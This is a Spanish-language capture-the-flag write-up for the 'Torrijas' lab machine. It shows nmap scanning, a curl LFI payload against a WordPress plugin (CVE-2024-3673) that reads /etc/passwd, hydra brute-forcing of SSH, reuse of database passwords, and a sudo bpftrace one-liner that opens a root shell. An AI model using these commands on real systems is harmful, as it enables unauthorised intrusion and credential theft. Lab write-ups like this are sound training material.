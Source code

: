 # Torrijas - The Hacker Labs (Fácil)

Torrijas es una máquina Linux de la plataforma The Hacker Labs, de dificultad fácil. 

- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Elevación de privilegios](#elevación-de-privilegios)

## Reconocimiento

Inicialmente hacemos un escaner para buscar hosts en el rango de IPs de la interfaz `enp0s3` con el comando:

`sudo arp-scan -I enp0s3 -l`

Vemos que nos detecta la ip `10.0.2.26`

![arp-scan](captura_2025-05-13_11-35-23.png)

Hacemos ping, y viendo que la ttl es 64 suponemos que la máquina es Linux.

![ping](captura_2025-05-13_11-35-55.png)

Hacemos un escaner con Nmap para ver que puertos abiertos hay en la máquina.

`nmap -p- -vvv --open -T4 -sS -Pn -n 10.0.2.26 -oN open-ports`

Vemos que estan abiertos los puertos 22, 80 y 3306

![ports](captura_2025-05-13_11-36-41.png)

## Enumeración

Hacemos un escáner con Nmap para ver los servicios y versiones que corren en los puertos. 

`nmap -p 22,80,3306 -sVC -Pn -n 10.0.2.26 -oN scan`

Podemos ver que en el puerto 22 corre un OpenSSH 9.2p1, en el 80 un Apache httpd 2.4.62 y en el 3306 un MariaDB 5.5.5.5

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-13 11:37 CEST
Nmap scan report for 10.0.2.26
Host is up (0.0024s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: torrija.thl
|_http-server-header: Apache/2.4.62 (Debian)
3306/tcp open  mysql   MySQL 5.5.5-10.11.6-MariaDB-0+deb12u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.6-MariaDB-0+deb12u1
|   Thread ID: 44376
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, LongColumnFlag, SupportsTransactions, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, InteractiveClient, ConnectWithDatabase, Speaks41ProtocolNew, ODBCClient, SupportsLoadDataLocal, IgnoreSigpipes, FoundRows, SupportsCompression, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: W|-f=;SlG\ym9pJb,TE:
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds
```

Lo primero que vamos a hacer es fuzzing con la herramienta ffuf. Para ver todos los directorios y archivos .html en la página.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .html -u "http://torrija.thl/FUZZ"
```

Vemos que hay un directorio /wordpress

![ffuf](captura_2025-05-13_11-39-19.png)

Entramos en la página y vemos un wordpress.

![wordpress](captura_2025-05-13_12-00-22.png)

Ejecutamos el comando `wpscan` y vemos que tenemos acceso al directorio `/wp-content/uploads`

`wpscan --url http://torrija.thl/wordpress`

http://torrija.thl/wordpress/wp-content/uploads/

Entrando en `/uploads/` vemos un directory listing que contiene un archivo `w2dc-plugin.css`

![uploads](captura_2025-05-13_12-03-40.png)

Buscando sobre este plugin podemos ver que tiene una versión vulnerable y he encontrado una PoC:
https://github.com/Nxploited/CVE-2024-3673/tree/main

Viendo el código podemos ver que lo primero que hace es comprobar la versión del plugin dentro de http://torrija.thl/wordpress/wp-content/plugins/web-directory-free/readme.txt y si la version es igual a `1.7.2` es vulnerable.

![código](captura_2025-05-13_12-05-13.png)

![versión](captura_2025-05-13_12-07-14.png)

Vemos que efectivamente la versión del plugin es `1.7.2` por lo tanto es vulnerable

![readme](captura_2025-05-13_12-07-42.png)

Si vemos la función `exploit_vulnerability()` lo que hace es explotar una vulnerabilidad LFI, haciendo un post a `{url}/wp-admin/admin-ajax.php` y en el body se puede introducir un archivo para leer.

![exploit](captura_2025-05-13_12-08-51.png)

Hacemos curl para probarlo con `/etc/passwd` y efectivamente devuelve el contenido del archivo.

```
curl -X POST http://torrija.thl/wordpress/wp-admin/admin-ajax.php --data 'from_set_ajax=1&action=w2dc_controller_request&template=../../../../../../../../etc/passwd'
```

![LFI](captura_2025-05-13_12-16-11.png)

## Explotación

En `/etc/passwd` vemos un usuario `premo` por lo que con `hydra` hacemos un ataque por fuerza bruta al servicio SSH.

`hydra -l premo -P /usr/share/wordlists/rockyou.txt -t 64 ssh://10.0.2.26 -I`

![hydra](captura_2025-05-13_13-31-27.png)

Las credenciales son `premo:cassandra`

Nos conectamos por SSH:

![ssh](captura_2025-05-13_13-32-14.png)

Aqui está el archivo `user.txt`

![user.txt](captura_2025-05-13_13-32-39.png)

## Elevación de privilegios

Dentro de `/var/www/html/wordpress/wp-config.php` podemos ver las credenciales a la base de datos MariaDB. Aunque viendo la base de datos no hay nada relevante.

![wp-config.php](captura_2025-05-13_14-07-58.png)

Dentro de `/home/premo` leemos el archivo `.mysql_history` en el que vemos una base de datos "Torrijas" por lo que supongo que accediendo a la base de datos con un usuario con mas permisos que `admin` podría tener acceso.

![mysql_history](captura_2025-05-13_14-39-03.png)

Pruebo a conectarme como root con la misma contraseña que admin y consigo conectarme. Entramos a la base de datos "Torrijas"

![mysql root](captura_2025-05-13_14-39-33.png)

Aqui están las credenciales de `primo`

![mysql root](captura_2025-05-13_14-39-41.png)

Con `su primo` me cambio al usuario primo. Ejecuto `sudo -l` para ver si tiene permisos sudo. Vemos que puede ejecutar el binario `/usr/bin/bpftrace` como usuario root

![alt text](captura_2025-05-13_14-40-18.png)

Si ejecutamos este comando podemos abrir una shell como usuario root.

`sudo bpftrace -c /bin/sh -e 'END {exit()}'`

![id](captura_2025-05-13_14-42-37.png)

Aqui esta el archivo `root.txt`

![root.txt](captura_2025-05-13_14-42-51.png)